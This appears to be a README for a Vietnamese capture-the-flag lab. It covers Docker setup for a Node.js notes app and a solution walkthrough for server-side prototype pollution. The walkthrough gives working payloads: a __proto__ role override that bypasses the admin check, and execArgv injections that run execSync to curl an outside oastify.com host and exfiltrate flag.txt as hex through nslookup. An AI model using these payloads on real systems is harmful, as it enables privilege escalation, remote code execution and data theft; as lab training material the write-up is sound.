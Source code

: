 # RESEARCH03


## Installation

Git clone repo
```
git clone https://github.com/brocked200/RESEARCH03.git
```

Di chuyển vào thư mục RESEARCH03
```
cd RESEARCH03
```

Build và chạy
```
sudo docker-compose up --build
```


## Usage

Sau khi build và chạy thành công, sẽ có thông báo hiển thị:
```
nodejs   | Server started on port 3000 
nodejs   | Connected to MySQL
```

![image](https://user-images.githubusercontent.com/52159161/228818947-820b6d6d-6490-4aeb-877e-cece22dc1fd6.png)

Truy cập vào localhost:3000 sẽ thấy giao diện web


## Bug

Nếu bị lỗi `Table 'ctf_prototypePollution.users' doesn't exist` khi chạy chương trình
>
Tạo cấu trúc database thủ công bằng command sau:
```bash
sudo docker exec -i mysql-nodejs mysql -uroot -p123123 ctf_prototypePollution < /home/khanh/Desktop/ctf_prototypePollution/db/init.sql 
```
Lưu ý: Thay đổi đường dẫn file sql `/home/khanh/Desktop/ctf_prototypePollution/db/init.sql `



# Đề CTF
## Ý tưởng
Sử dụng lỗ hổng Prototype Pollution trên server side để bypass phần kiểm tra admin trong chức năng thêm ghi chú. Sau đó thay đổi payload để tiến hành RCE để lấy flag.

## Cách giải
- Đầu tiên đăng ký tài khoản, sau đó login vào lab.
- Ban đầu sẽ không thể tạo ghi chú vì back-end sẽ kiểm tra quyền có phải là 'admin' không.
![image](https://user-images.githubusercontent.com/52159161/228821369-227de1c0-ef08-4593-a98f-b74b09c528a9.png)

- Chỉ được phép submit thuộc tính content, khi tiến hành thêm thuộc tính khác sẽ báo lỗi.
![image](https://user-images.githubusercontent.com/52159161/228822956-01b6e998-603b-4f6a-a605-b7d2a2b51910.png)

- Nhưng người chơi có thể bypass bằng cách sử dụng `__proto__` để tiến hành ô nhiễm prototype trên server.
Sẽ không còn thông báo lỗi "Chỉ được phép submit thuộc tính content"
![image](https://user-images.githubusercontent.com/52159161/228823203-a021d7c9-d692-4a73-80c0-2752816f6a75.png)

- Người chơi cần tìm đường dẫn source bị lộ trong robots.txt. Có đường dẫn khả nghi là `/s0uRcE`
![image](https://user-images.githubusercontent.com/52159161/228821652-47205b3c-53d9-41e9-84d5-fa49ebde172c.png)

- Sau khi truy cập vào `/s0uRcE`, thông tin về source của chức năng post notes sẽ được giấu trong trong phần ghi chú html
![image](https://user-images.githubusercontent.com/52159161/228821956-8374ef27-1753-4d7f-ac42-a301e9db7502.png)

- Từ đó người chơi sẽ biết được phần kiểm tra quyền admin là lấy thuộc tính role từ session.user.role so sánh giá trị role có phải là 'admin' hay không!
- Và xây dựng payload để ô nhiễm prototype role như sau:
```
"__proto__":{"session":{"user":{"role":"admin"}}}
```
Thành công bypass được phần kiểm tra quyền admin. Vì insert bị lỗi nên tiếp tục xem source code.
![image](https://user-images.githubusercontent.com/52159161/228823715-e2519702-b6ea-4837-8904-6ef60a19ca20.png)

- Sau khi đọc source code , người chơi sẽ thấy khi query insert ghi chú bị lỗi sẽ vào thực hiện code có gọi `execArgv` để thực hiện command gì đó.
![image](https://user-images.githubusercontent.com/52159161/228824432-82336614-72cb-4ac4-8050-1a536778bb5d.png)

- Và người chơi sẽ xây dụng được payload để thực hiện RCE out-of-band ra bên ngoài như sau:
```
"__proto__":{
"execArgv": [
"node -e \"require('child_process').execSync('curl https://1jlgxx6r7df3u8j4hocv3l2ygpmga6yv.oastify.com')\""
]
}
```
![image](https://user-images.githubusercontent.com/52159161/228824685-8d529bc3-95c3-46be-95f0-b7fffb000dbd.png)

- Nếu thành công sẽ có truy vấn tới burp collab
![image](https://user-images.githubusercontent.com/52159161/228825080-1dfd9a92-303e-4a9a-a8c7-a6986a6c1974.png)

- Vì cơ chế DNSSEC (Domain Name System Security Extensions) do đó khi truy vấn các kí tự chuỗi nhận được sẽ ngầu nhiên hoa thường khác nhau mỗi lần truy vấn do đó người chơi cần sử dụng command kèm theo đưa nó về hex sau đó cắt chuỗi nếu dài quá và gộp từng chuỗi lại. Đưa tất cả chuỗi đó về in thường và decode hex sẽ ra được flag. 
Command hint:
```
"__proto__": {
"execArgv": [
"node -e \"require('child_process').execSync('nslookup `cat flag.txt | xxd -p | tr -d '\n' | cut -c 1-60`.wzzftl7lgj1zmh6z0g5j7xxp5gb7z8nx.oastify.com')\""
]
}
```
Thay đổi cut -c thành 61-120 để tiến hành lấy đoạn hex còn thiếu.
